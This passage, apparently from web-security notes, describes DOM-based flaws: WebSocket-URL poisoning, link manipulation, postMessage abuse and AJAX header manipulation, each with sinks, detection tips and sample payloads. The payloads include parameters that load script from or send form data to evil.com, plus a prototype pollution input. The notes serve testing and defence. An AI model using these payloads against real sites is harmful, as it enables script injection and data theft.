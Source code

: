   - **WebSocket-URL Poisoning**
    - Occurs when WebSocket URLs are constructed using untrusted input
    - Common sinks:
      - `WebSocket()` constructor
      - `new WebSocket()` calls
    - Exploitation examples:
      - Malicious WebSocket endpoint: `?socket=wss://evil.com`
      - Protocol manipulation: `?socket=ws://internal.local`
    - Detection:
      - Check how WebSocket URLs are constructed
      - Test URL parameters used in WebSocket connections
      - Monitor WebSocket connection attempts

  - **Link Manipulation**
    - Occurs when URLs for resources and links are built with user input
    - Common sinks:
      - `element.src`, `element.href`, `element.action`
      - `jQuery.attr()` when setting URL attributes
    - Exploitation examples:
      - Script src poisoning: `?script=https://evil.com/malicious.js`
      - Form action tampering: `?action=https://evil.com/collect`
      - Image source manipulation: `?img=https://evil.com/track.php`
    - Detection:
      - Monitor changes to URL-based attributes
      - Test input reflection in src/href attributes
      - Check for dynamic resource loading

  - **Web Message Manipulation**
    - Targets `postMessage()` and message event handlers
    - Common sinks:
      - `postMessage()` sender
      - `message` event handlers that process data without validation
    - Exploitation examples:
      - Origin bypass: Send messages from controlled origin
      - Type confusion: `?msg={"type":"malicious","payload":"alert(1)"}`
      - Prototype pollution: `?msg={"__proto__":{"isAdmin":true}}`
    - Detection:
      - Check `postMessage` calls and message handlers
      - Test message validation and origin checks
      - Look for insecure message processing patterns

  - **Ajax Request-Header Manipulation**
    - Modifying HTTP headers in AJAX/fetch requests
    - Common sinks:
      - `setRequestHeader()` method
      - Headers object in fetch API
    - Exploitation examples:
      - Custom header injection: `?header=X-CSRF-Token&value=bypass`
      - Content-Type manipulation: `?contentType=text/xml`
    - Detection:
      - Monitor AJAX request header setting
      - Test input reflection in HTTP headers
      - Check for dynamic header generation
